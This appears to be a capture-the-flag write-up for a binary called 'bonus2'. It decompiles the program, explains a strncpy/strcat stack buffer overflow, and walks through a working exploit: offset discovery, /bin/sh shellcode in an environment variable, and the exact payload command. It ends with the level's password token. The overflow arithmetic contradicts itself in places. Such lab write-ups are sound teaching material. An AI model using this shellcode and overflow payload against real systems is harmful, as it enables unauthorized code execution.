 # Bonus2

1. Decompilation with Ghidra

    **main() function:**

    ```c
    undefined4 main(int param_1, int param_2)
    {
    undefined4 uVar1;
    int iVar2;
    char *pcVar3;
    undefined4 *puVar4;
    byte bVar5;
    char local_60 [40];    // buffer for argv[1]
    char acStack_38 [36];  // buffer for argv[2]
    char *local_14;        // LANG variable
    
    bVar5 = 0;
    if (param_1 == 3) {
        // Initialize buffers
        memset(local_60, 0, 76);
        
        // Copy argv[1] (max 40 bytes) - NO NULL TERMINATION if exactly 40 bytes!
        strncpy(local_60, *(char **)(param_2 + 4), 0x28);
        
        // Copy argv[2] (max 32 bytes) - NO NULL TERMINATION if exactly 32 bytes!
        strncpy(acStack_38, *(char **)(param_2 + 8), 0x20);
        
        // Check LANG environment variable
        local_14 = getenv("LANG");
        if (local_14 != NULL) {
        if (memcmp(local_14, "fi", 2) == 0) {  // Finnish
            language = 1;
        }
        else if (memcmp(local_14, "nl", 2) == 0) {  // Dutch
            language = 2;
        }
        }
        
        // Copy local_60 to stack and call greetuser()
        // ... (stack manipulation) ...
        uVar1 = greetuser();
    }
    else {
        uVar1 = 1;
    }
    return uVar1;
    }
    ```

    **greetuser() function:**

    ```c
    void greetuser(void)
    {
    char local_4c [4];
    undefined4 local_48;
    char local_44 [64];
    
    // Set greeting prefix based on language
    if (language == 1) {
        // Finnish: "Hyvää päivää " (~13 bytes)
        strcpy(local_4c, "Hyvää päivää ");
    }
    else if (language == 2) {
        // Dutch: "Goedemiddag! " (~13 bytes)
        strcpy(local_4c, "Goedemiddag! ");
    }
    else if (language == 0) {
        // English: "Hello " (6 bytes)
        strcpy(local_4c, "Hello ");
    }
    
    // VULNERABILITY: strcat with no size check!
    strcat(local_4c, &stack0x00000004);  // Concatenates argv[1] data
    puts(local_4c);
    return;
    }
    ```

2. Analysis of the vulnerability

    The vulnerability comes from the combination of multiple issues:

    1. **strncpy() doesn't null-terminate**: If the source string is exactly the maximum length (40 or 32 bytes), `strncpy()` does NOT add a null terminator
    2. **Adjacent buffers in memory**: `local_60` (argv[1]) and `acStack_38` (argv[2]) are adjacent in memory
    3. **strcat() reads until null byte**: Without null termination, `strcat()` will read **both argv[1] AND argv[2]** as a single string
    4. **No size check on strcat()**: The concatenation has no bounds checking

    Stack Layout in greetuser() :

    ```
    [local_4c: 4 bytes]  <- Starting address of concatenation
    [local_48: 4 bytes]
    [local_44: 64 bytes]
    --------------------- 72 bytes total
    [saved EBP: 4 bytes]
    [saved EIP: 4 bytes]  <- TARGET: We want to overwrite this!
    ```

    Memory Layout During Exploitation :

    When we provide:

    - `argv[1]` = 40 bytes (exactly, no null byte)
    - `argv[2]` = 32 bytes

    The `strcat()` operation concatenates:

    ```
    [Prefix: ~13 bytes] + [argv[1]: 40 bytes] + [argv[2]: 32 bytes] = 85 bytes total
    ```

    Since the buffer is only 72 bytes:

    - **Overflow: 85 - 72 = 13 bytes**
    - These 13 bytes overwrite saved EBP and **saved EIP**!

3. Exploitation

    1. **Use LANG=fi or LANG=nl** to get a longer prefix (~13 bytes instead of 6)
    2. **Fill argv[1] with 40 bytes** (no null terminator)
    3. **Fill argv[2] with padding + return address**:
    - Offset calculation: 72 (buffer) - 13 (prefix) - 40 (argv[1]) = 19 bytes
    - But saved EBP is 4 bytes, so: 19 - 4 = **15 bytes of padding needed**
    - Actually, through testing: **18 bytes of padding** + 4 bytes address

    Finding the Offset with Pattern :

    Using a De Bruijn pattern in GDB:

    ```bash
    (gdb) run $(python -c 'print "A"*40') $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab"')
    ```

    Crash at: `0x41366141` → corresponds to "Aa6A" at **offset 18**

    Payload Structure :

    ```
    argv[1]: [40 bytes of 'A']
    argv[2]: [18 bytes padding] + [shellcode address (4 bytes)]
    ```

4. Exploitation

    Step 1: Export Shellcode in Environment

    ```bash
    export SHELLCODE=$(python -c 'print "\x90"*100 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"')
    ```

    Step 2: Find Shellcode Address

    Compile and use the getenv helper:

    ```bash
    gcc getenv.c -o /tmp/getenv
    /tmp/getenv SHELLCODE
    ```

    Output: `SHELLCODE is at address: 0xbffff8ae`

    Step 3: Craft and Execute Payload

    ```bash
    export LANG=fi
    ./bonus2 $(python -c 'print "A"*40') $(python -c 'print "B"*18 + "\xae\xf8\xff\xbf"')
    ```

    Payload Breakdown :

    - **LANG=fi**: Sets language to Finnish for longer prefix
    - **argv[1]**: 40 'A' characters (fills buffer without null terminator)
    - **argv[2]**:
    - 18 'B' characters (padding to reach saved EIP)
    - `\xae\xf8\xff\xbf` (address 0xbffff8ae in little-endian)

    Execution Flow :

    1. `strncpy(local_60, argv[1], 40)` copies 40 'A' without null byte
    2. `strncpy(acStack_38, argv[2], 32)` copies our payload
    3. `language = 1` (Finnish) sets prefix to "Hyvää päivää "
    4. `strcat()` concatenates: prefix (13) + argv[1] (40) + argv[2] (22) = 75 bytes
    5. Buffer overflow overwrites saved EIP with 0xbffff8ae
    6. Function returns to shellcode address
    7. Shellcode executes `/bin/sh`
    8. Read `/home/user/bonus3/.pass`

5. Token discovered

    The token is: `71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587`
